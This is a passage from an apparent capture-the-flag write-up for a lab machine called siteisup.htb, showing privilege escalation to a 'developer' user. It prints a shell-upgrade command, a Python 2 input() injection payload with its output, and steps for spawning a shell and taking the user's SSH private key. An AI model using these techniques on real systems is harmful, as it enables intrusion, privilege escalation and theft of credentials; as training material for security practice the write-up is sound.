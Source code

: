 Which it does! We upgrade the shell quickly using

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Privesc to Developer

A quick check in `/home` tells us there is a `developer` user. If we go into their home directory then `/dev`, there is a SUID binary named `siteisup` with the source code `siteisup.py`. We can read `siteisup.py`:

```python
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```

We can immediately spot this is python2, and even more importantly it's using `input()` in python2 - which can easily lead to code execution. If we run `./siteisup`, we get prompted for the URL. If we enter a simple `os.system` command, we get a response:

```bash
$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('id')
__import__('os').system('id')
uid=1002(developer) gid=33(www-data) groups=33(www-data)
Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 4, in <module>
    page = requests.get(url)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 75, in get
    return request('get', url, params=params, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 61, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 515, in request
    prep = self.prepare_request(req)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 453, in prepare_request
    hooks=merge_hooks(request.hooks, self.hooks),
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 318, in prepare
    self.prepare_url(url, params)
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 392, in prepare_url
    raise MissingSchema(error)
requests.exceptions.MissingSchema: Invalid URL '0': No scheme supplied. Perhaps you meant http://0?
```

Aside from the errors, we can see it works! Now we can run `__import__('os').system('bash')` and get a shell as `developer`. I'll grab the `id_rsa` in `.ssh`, call it dev.key and SSH in:
